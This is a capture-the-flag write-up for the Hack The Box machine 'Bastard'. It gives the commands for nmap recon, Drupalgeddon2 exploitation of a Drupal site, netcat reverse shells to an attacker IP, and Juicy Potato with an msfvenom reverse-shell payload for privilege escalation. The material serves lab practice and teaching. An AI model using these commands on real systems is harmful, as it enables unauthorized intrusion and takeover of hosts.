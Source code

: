 # Bastard Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA bastard 10.10.10.9 -T4``

``80/tcp    open  http    Microsoft IIS httpd 7.5``

``135/tcp   open  msrpc   Microsoft Windows RPC``

``49154/tcp open  msrpc   Microsoft Windows RPC``

# ${{\color{purple}Initial Foothold}}\ $

### I found a drupal installation :

![image](https://user-images.githubusercontent.com/123066149/222651004-4f57a881-a658-42b1-9971-eed3a3e336a9.png)

### And then I found the version :

![image](https://user-images.githubusercontent.com/123066149/222651316-1a0c5c4c-72df-4617-a4a4-4b99ff7a49d5.png)

### After a little research on my exploit database :

![image](https://user-images.githubusercontent.com/123066149/222651599-021d5a98-9551-49a5-9dda-a5b8e4e49f2f.png)

### I used Drupalgeddon2 for the exploitation part :

https://github.com/dreadlocked/Drupalgeddon2

# ${{\color{purple}Exploitation}}\ $

### I met a problem during the execution it is necessary to install a ruby gem :

![image](https://user-images.githubusercontent.com/123066149/222652135-0d69f8e1-66bf-43a9-99b2-d1284cce2573.png)

``ruby drupalgeddon2.rb http://10.10.10.9``

![image](https://user-images.githubusercontent.com/123066149/222652407-c72044a9-a977-4103-80d7-0aa443c1b8d7.png)

![image](https://user-images.githubusercontent.com/123066149/222652670-508a49d3-2911-4db4-ad3b-932e7fc9c50a.png)

``/usr/bin/impacket-smbserver kali .``

``copy \\10.10.16.2\kali\nc.exe``

### Here I use nc to be able to execute commands because with the exploit I am blocked in the root of the web server.
### I tried powershell and cmd and it does not work with powershell.

``nc.exe 10.10.16.2 1234 -e powershell.exe``

``nc.exe 10.10.16.2 1234 -e cmd.exe``

# ${{\color{purple}Privilege Escalation}}\ $

``whoami /priv``

![image](https://user-images.githubusercontent.com/123066149/222653150-d960687b-fcc3-4815-ae6d-8fef5e7d11b8.png)

``Juicy_Potato_x86.exe -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -t * -p whoami``

![image](https://user-images.githubusercontent.com/123066149/222653070-65967f13-6367-46e0-9706-88a7f4bc4fc8.png)

``mmsfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=8888 -f exe -o exploit.exe``

![image](https://user-images.githubusercontent.com/123066149/222653552-a4fc6dcc-3560-4202-a773-942dfcbf8786.png)

``Juicy_Potato_x86.exe -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -t * -p C:\inetpub\drupal-7.54\exploit.exe``

![image](https://user-images.githubusercontent.com/123066149/222653326-a6bb088c-8984-4daa-8634-75fd0e114c60.png)

# ${{\color{purple}Points of Improvement}}\ $
